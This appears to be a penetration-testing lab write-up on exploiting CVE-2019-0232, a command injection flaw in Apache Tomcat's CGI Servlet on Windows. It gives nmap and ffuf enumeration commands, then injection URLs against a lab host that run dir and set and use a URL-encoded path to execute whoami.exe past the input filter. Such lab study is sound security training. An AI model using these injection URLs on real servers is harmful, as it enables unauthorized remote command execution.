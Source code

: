 ## Attacking Tomcat CGI (CVE-2019-0232)
### Overview  
CVE-2019-0232 is a critical remote code execution vulnerability in Apache Tomcat for Windows systems with the `enableCmdLineArguments` flag enabled. The flaw lies in how the CGI Servlet parses query strings and improperly passes unsanitized arguments to command-line CGI scripts. This results in unauthenticated command injection and arbitrary OS command execution.

Affected versions:

- Apache Tomcat 9.0.0.M1 to 9.0.17
- Apache Tomcat 8.5.0 to 8.5.39
- Apache Tomcat 7.0.0 to 7.0.93
### CGI Servlet Basics  

The CGI Servlet acts as middleware between Tomcat and external applications like `.bat`, `.cmd`, or `.pl` scripts. It supports dynamic web content execution using environment variables or command-line arguments (when `enableCmdLineArguments=true`).

Advantages of CGI:

- Simple to implement    
- Supports many programming languages
- Encourages reuse of legacy scripts    

Disadvantages of CGI:

- One process per request (performance hit)
- No memory caching between requests
- High CPU usage on large-scale deployments
### Understanding `enableCmdLineArguments`

When enabled, parameters from the query string are interpreted as command-line arguments and passed directly to the invoked script. For example:  
`http://example.com/cgi-bin/search.cgi?action=author&query=fitzgerald`  
In this case, the script gets arguments `action=author` and `query=fitzgerald`.

However, on Windows systems, an attacker can abuse this feature by injecting OS commands via special characters like `&`:  
Example:  
`http://victim/cgi-bin/script.bat?&dir`
### Initial Enumeration  

Use Nmap to identify open ports and web services.

```
nmap -p- -sC -Pn 10.129.204.227 --open
```

Nmap Output Summary:

- Port 8080: Apache Tomcat/9.0.17 (vulnerable)    
- Port 8009: AJP13 (Apache JServ Protocol)
- Multiple Windows RPC/SMB ports open (135, 139, 445)
- WinRM enabled on port 5985 and 47001
### Finding CGI Scripts  

Use `ffuf` for content discovery against known CGI directories using `.bat` and `.cmd` extensions.

Attempt 1 (Failed):

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

Attempt 2 (Successful):

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

Result:

```
[Status: 200] - welcome.bat
```

Visit: `http://10.129.204.227:8080/cgi/welcome.bat`  
Returns message:  
`Welcome to CGI, this section is not functional yet. Please return to home page.`
### Exploitation – Command Injection via Query String  

Triggering command execution:

```
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

Only basic commands like `dir` work at first. Others like `whoami` may silently fail due to environmental restrictions.

Enumerate environment variables:

```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```

Useful output:

- `COMSPEC=C:\Windows\system32\cmd.exe`
- `SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat`
- `SystemRoot=C:\Windows`
- `PATH` is unset, so full paths must be used
### Bypassing Input Filtering with URL Encoding  

Apache patched Tomcat to block dangerous characters, but the filter can be bypassed by URL-encoding the payload.

Command:

```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

Explanation:

- `&` = `%26`    
- `\` = `%5C`
- `:` = `%3A`

If successful, this will return the output of `whoami.exe` executed via the CGI script.
# Tags
> #Exploitation #Application-Exploitation #Tomcat 